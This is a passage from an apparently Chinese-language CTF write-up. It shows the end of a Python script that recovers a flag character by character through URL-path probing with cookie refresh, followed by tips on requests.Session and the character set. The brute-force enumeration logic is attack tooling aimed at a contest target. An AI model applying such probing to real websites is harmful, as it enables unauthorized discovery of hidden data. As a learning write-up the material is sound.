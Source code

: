 ```python
            return True
        elif response.status_code == 403:
            # print("[-] Access forbidden, updating cookies...")
            cookies = update_cookie()
        elif response.status_code == 404:
            return False


def main():
    CHARSET = 'abcdefghijklmnopqrstuvwxyz' + '0123456789{}-_' # + 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    cookies = update_cookie()
    extended_url = 'N/S/S/C/T/F/{'
    # extended_url = 'N/S/S/C/T/F/{/5/8/2/9/a/3/f/4'

    while True:
        for c in CHARSET:
            if get_flag(cookies, extended_url, c):
                print(f"[+] Found flag character: {c}")
                extended_url += '/' + c
                print(f"[*] Current extended URL: {extended_url}")
                break
        if extended_url.endswith('}'):
            break

    print("[+] All flag characters found.")
    extended_url = extended_url.replace('/', '')
    print(f"[+] Final flag: {extended_url}")


if __name__ == '__main__':
    main()
```

踩了几个坑, 记录一下, 一个是 request 包里要用 cookie 的话需要用到 `request.Session()` 这个类; 第二个是字符集...注意 flag 里可能会有 `-`;

![25-6.png](25-6.png)
